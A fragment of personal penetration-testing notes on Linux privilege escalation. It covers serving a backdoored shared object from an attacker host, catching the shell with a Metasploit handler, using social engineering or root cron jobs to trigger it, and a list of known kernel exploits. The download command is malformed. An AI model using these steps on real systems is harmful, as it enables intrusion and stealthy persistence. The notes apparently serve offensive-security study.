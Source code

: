#### Send the backdoored Shared Object to the target
```
python3 -m http.server 80
cd /tmp/program/libs && http://<kali ip>/program.so
```

#### Start a handler
msf:
```
use exploit/multi/handler
set options
run
```

> [+]
In order to the privesc work, the program must be executed by a user with higher privileges, or scheduled  as part of a cron job that runs as root. etc

> or we wait For the program to be launched as a user with elevated privileges or in a luck scenario, the program run as root in the cron job.

- we could use social engineering to try and persuade an end-user to execute the program
- Alternatively, if we are already root on the system, we can use this method as a stealthy persistence mechanism.


### Kernel Exploits
// The kernel is the core of the Linux operating system.
// since 1991 has grown to support routers, servers, worsktations, firewalls, mobile such as android, even PlayStation.
// Being open source and with thousands of contributors and users, it makes the kernel a high-value target For zero-days or otherwise more popular and known attack vectors.
// some recent examples of privesc vulns and associated exploits affecting the Linux kernel:
- dirty cow - Existed in Kernel versions since 2.6.22 (2007) and fixed in 2016
	https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails

- Stack Clash (Multiple Distrivutions/Kernels)
	https://blog.qualys.com/securitylabs/2017/06/19/the-stack-clash

- DCCP Double-Free Privilege Escalation (4.4.0 Kernel / Ubuntu)
	https://www.exploit-db.com/exploits/41458/

- Race Condition Privilege Escalation (Linux Kernel < 4.10.15)
	https://www.exploit-db.com/exploits/43345/

#### Categories
- Buffer Overflows
- Memory Corruption
- Denial-of-Service
- Race Conditions

#### [+] Advice about exploits
- Linux Kernel exploits For our purposes will typically either be pre-compiled ELF binaries, C source code (.c files) which we will compile ourselves, or available via exploits frameworks such as metasploit.
